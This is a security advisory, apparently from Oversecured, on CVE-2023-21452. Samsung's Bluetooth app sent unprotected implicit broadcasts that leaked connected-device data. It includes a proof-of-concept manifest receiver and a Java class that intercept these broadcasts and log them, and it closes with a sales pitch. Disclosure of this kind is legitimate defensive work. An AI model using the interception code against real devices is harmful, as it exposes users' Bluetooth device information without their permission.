



# Details

<table>
    <tr>
        <td>Name</td>
        <td>Bluetooth</td>
    </tr>
    <tr>
        <td>Package name</td>
        <td><code>com.android.bluetooth</code></td>
    </tr>
    <tr>
        <td>Reported date</td>
        <td>2022.09.11</td>
    </tr>
    <tr>
        <td>Fixed date</td>
        <td>2023.03.07</td>
    </tr>
    <tr>
        <td>Severity</td>
        <td>Moderate</td>
    </tr>
    <tr>
        <td>Handle</td>
        <td><a href="https://nvd.nist.gov/vuln/detail/CVE-2023-21452">CVE-2023-21452</a> (SVE-2022-2212)</td>
    </tr>
    <tr>
        <td>Reward</td>
        <td>$640</td>
    </tr>
</table>

# Description

Oversecured found uses of implicit intents in the Bluetooth app when sending broadcasts:




This app was developed at AOSP, but patched at Samsung. In the file `com/samsung/bt/bluetoothcast/mcm/BluetoothCastAdapterService.java` Samsung added sending implicit broadcasts with actions:
- `com.samsung.android.bluetooth.cast.device.action.FOUND`
- `com.samsung.android.bluetooth.cast.device.action.REMOVED`
- `com.samsung.android.bluetoothcast.noti_connect`
- `com.samsung.android.bluetoothcast.noti_cancel`
- `com.samsung.android.bluetoothcast.noti_remove`
- `com.samsung.android.bluetoothcast.noti_content`

They were exposing connected Bluetooth devices. In AOSP, access to such data usually requires `android.permission.BLUETOOTH_CONNECT` permission. However, these broadcasts were not protected in any way.

**Proof of Concept**

File `AndroidManifest.xml`:
```xml
<receiver android:name=".MyReceiver" android:exported="true">
    <intent-filter>
        <action android:name="com.samsung.android.bluetooth.cast.device.action.FOUND" />
        <action android:name="com.samsung.android.bluetooth.cast.device.action.REMOVED" />
        <action android:name="com.samsung.android.bluetoothcast.noti_connect" />
        <action android:name="com.samsung.android.bluetoothcast.noti_cancel" />
        <action android:name="com.samsung.android.bluetoothcast.noti_remove" />
        <action android:name="com.samsung.android.bluetoothcast.noti_content" />
    </intent-filter>
</receiver>
```

File `MyReceiver.java`:
```java
public class MyReceiver extends BroadcastReceiver {
    public void onReceive(Context context, Intent intent) {
        DumpUtils.dump(intent, context.getClassLoader());
    }
}
```

The implementation of the `DumpUtils.dump()` method can be found in the source code. We use the functionality of the Gson library to turn objects of any class into a string and then dump it to the log.

## References

- [Oversecured Blog. Interception of Android implicit intents](https://blog.oversecured.com/Interception-of-Android-implicit-intents/)

## Conclusion

Mobile app security is more critical than ever in today's digital landscape. As we have shown through our research, even the most reputable brands are not immune to the threat of cyberattacks. 

At Oversecured, we are committed to help our clients stay ahead of the curve with our industry-leading mobile app vulnerability scanning technology. With our comprehensive approach to mobile app security, you can trust that your brand and your users are protected from data breaches and other security threats.

Don't wait until it's too late. [Get a free consultation](https://oversecured.com/contact-us?utm_source=github&utm_medium=article&utm_campaign=samsung2022) and find out how we can help secure your mobile apps. Together, we can build a safer digital world.